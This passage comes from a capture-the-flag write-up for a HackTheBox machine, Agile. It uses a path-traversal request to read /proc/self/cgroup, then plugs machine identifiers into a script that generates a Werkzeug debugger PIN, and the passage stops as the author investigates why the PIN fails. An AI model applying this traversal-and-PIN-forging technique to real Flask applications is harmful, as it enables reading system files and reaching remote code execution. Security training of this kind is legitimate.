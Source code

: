 
I’ll also need the first line of `/proc/self/cgroup`, from the last “/” to the
end:

    
    
    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/self/cgroup -s --path-as-is -b $cookie
    0::/system.slice/superpass.service
    

I only need the “superpass.service” part.

Putting that all together updates the script to:

    
    
    private_bits = [
        '345052367029',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
    ]
    

#### Hash Algorithm

I’ll run this and it outputs a pin:

    
    
    oxdf@hacky$ python agile.py 
    276-150-242
    

But it doesn’t work:

![image-20230728170845041](../img/image-20230728170845041.png)

One possible issue has to do with the hash algorithm in use. Werkzurg updated
their code from MD5 to SHA1 a while ago. At the time of Agile’s release, there
was a note on the Hacktricks page:
